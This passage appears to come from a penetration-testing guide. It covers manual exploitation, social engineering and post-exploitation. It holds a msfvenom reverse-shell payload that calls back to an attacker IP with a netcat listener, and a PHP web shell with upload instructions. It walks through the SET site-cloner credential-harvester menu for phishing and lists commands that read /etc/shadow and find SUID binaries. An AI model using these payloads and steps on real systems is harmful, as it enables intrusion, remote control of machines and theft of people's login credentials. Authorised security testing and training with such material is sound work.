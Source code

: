 ### 2. Manual Exploitation

**Reverse Shell Creation:**
```bash
# Generate payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf

# Setup listener
nc -lvnp 4444

# Upload and execute payload on target
```

**Web Shell Upload:**
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload via vulnerable upload functionality
# Access: http://target/uploads/shell.php?cmd=whoami
```

### 3. Social Engineering

**Phishing with SET:**
```bash
# Start Social Engineer Toolkit
setoolkit

# Choose attack vector:
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner

# Clone legitimate login page
# Set up listener for credentials
```

---

## 🔓 Post-Exploitation

### 1. System Enumeration

**Linux Target:**
```bash
# System information
uname -a
cat /etc/passwd
cat /etc/shadow
ps aux
netstat -tulpn

# Find SUID binaries
find / -perm -4000 2>/dev/null

# Check for writable directories
find / -writable -type d 2>/dev/null
```
